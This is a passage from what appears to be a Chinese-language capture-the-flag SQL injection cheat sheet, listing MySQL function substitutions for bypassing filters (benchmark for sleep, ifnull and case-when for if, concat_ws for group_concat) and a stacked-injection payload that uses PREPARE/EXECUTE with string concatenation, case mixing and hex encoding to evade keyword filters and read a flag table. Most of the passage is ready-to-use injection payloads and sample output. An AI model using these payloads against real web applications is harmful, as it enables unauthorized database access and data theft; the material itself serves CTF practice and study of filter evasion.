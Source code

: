 sleep() -->benchmark()
select 12,23 and sleep(1);
参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式
select 12,23 and benchmark(10000000,1);

ascii()–>hex()、bin()
替代之后再使用对应的进制转string即可
group_concat()–>concat_ws()
select group_concat(“str1”,“str2”);
select concat_ws(",",“str1”,“str2”);

substr(),substring(),mid()可以相互取代, 取子串的函数还有left(),right()
user() --> @@user、datadir–>@@datadir
ord()–>ascii():这两个函数在处理英文时效果一样，但是处理中文等时不一致。

##### 过滤了if函数：

```bash
if函数的判断语句
select if(substr(database(),1,1)='c',1,0);
IFNULL函数
select ifnull(substr(database(),1,1)='c',0);
case when then函数
select case substr(database(),1,1)='c' when 1 then 1 else 0 end;
```

## 13堆叠注入时利用 MySql 预处理

在遇到堆叠注入时，如果select、rename、alter和handler等语句都被过滤的话，我们可以用MySql预处理语句配合concat拼接来执行sql语句拿flag。

PREPARE：准备一条SQL语句，并分配给这条SQL语句一个名字(hello)供之后调用

EXECUTE：执行命令

DEALLOCATE PREPARE：释放命令

SET：用于设置变量(@a)

```bash
1';sEt @a=concat("sel","ect flag from flag_here");PRepare hello from @a;execute hello;#
```

这里还用大小写简单绕了一下其他过滤

MySql 预处理配合十六进制绕过关键字
基本原理如下：

```bash
mysql> select hex('show databases');
+------------------------------+
| hex('show databases;')       |
+------------------------------+
| 73686F7720646174616261736573 |
+------------------------------+
1 row in set (0.01 sec)

mysql> set @b=0x73686F7720646174616261736573;
Query OK, 0 rows affected (0.01 sec)

mysql> prepare test from @b;
Query OK, 0 rows affected (0.02 sec)
Statement prepared

mysql> execute test;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| challenges         |
```